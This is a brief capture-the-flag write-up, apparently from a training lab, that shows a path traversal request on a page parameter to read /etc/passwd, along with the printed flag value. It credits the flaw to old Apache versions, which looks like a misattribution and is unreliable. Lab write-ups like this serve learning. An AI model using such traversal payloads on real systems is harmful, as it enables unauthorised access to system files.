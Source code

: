 # flag 8 | apache exploit

In old versions of apache, we can access the /etc/passwd due to a bug in the apache server. This bug is fixed in the latest version of apache.

If we try to access `http://192.168.56.104/?page=../../../../../etc/passwd` we get the following alert:

```
Still nope...
```

Then if we go to `http://192.168.56.104/?page=../../../../../../../../etc/passwd` we get the following alert:

```
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```